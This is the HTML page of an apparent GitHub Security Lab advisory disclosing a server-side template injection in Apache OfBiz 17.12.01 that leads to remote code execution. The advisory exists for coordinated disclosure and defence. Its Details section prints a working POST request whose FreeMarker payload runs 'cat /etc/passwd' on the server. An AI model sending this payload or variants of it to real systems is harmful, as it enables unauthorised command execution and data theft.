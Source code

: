 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">January 26, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-070: Server-Side Template Injection (SSTI) leading to Remote Code Execution (RCE) in Apache OfBiz</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/pwntester">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/125701?s=35" height="35" width="35">
        <span>Alvaro Munoz</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>
<ul>
  <li>04/13/2020: Report sent to vendor.</li>
  <li>04/23/2020: OfBiz maintainer acknowledges the issue.</li>
  <li>04/23/2020: As per Apache policy, no CVE will be issued for post-authentication vulnerabilities no matter if they are privilege escalations or XSS issues (including this one that can be triggered via XSS reported in GHSL-2020-068)</li>
  <li>01/10/2021: Addressed in 17.12.05</li>
</ul>

<h2 id="summary">Summary</h2>
<p>Apache OfBiz is vulnerable to Server-Side Template Injection (SSTI) leading to Remote Code Execution (RCE)</p>

<h2 id="product">Product</h2>
<p>Apache Ofbiz</p>

<h2 id="tested-version">Tested Version</h2>
<p>17.12.01</p>

<h2 id="details">Details</h2>

<h3 id="server-side-template-injection-through-content-templates">Server-Side Template Injection through Content templates</h3>

<p>A user with privileges to edit <a href="https://demo-stable.ofbiz.apache.org/content/control/EditLayoutSubContent?mode=add&amp;contentIdTo=TEMPLATE_MASTER">Content Manager templates</a>, can use the UI or a direct POST request to get a FreeMarker template evaluated. For example, the example below will run the <code class="language-plaintext highlighter-rouge">cat /etc/passwd</code> command and will return its contents:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>POST /content/control/createLayoutSubContent HTTP/1.1
Host: demo-stable.ofbiz.apache.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 187
Connection: close
Cookie: JSESSIONID=9697AC85B262C213DEA0A548939118F6.jvm1;

contentTypeId=DOCUMENT&amp;contentIdTo=TEMPLATE_MASTER&amp;drDataResourceTypeId=ELECTRONIC_TEXT&amp;drDataTemplateTypeId=FTL&amp;textData=${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}
</code></pre></div></div>

<h4 id="impact">Impact</h4>

<p>This issue leads to <code class="language-plaintext highlighter-rouge">Remote Code Execution</code></p>

<h2 id="cve">CVE</h2>
<p>Not assigned</p>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/pwntester">@pwntester (Alvaro Muñoz)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include the <code class="language-plaintext highlighter-rouge">GHSL-2020-070</code> in any communication regarding this issue.</p>

   
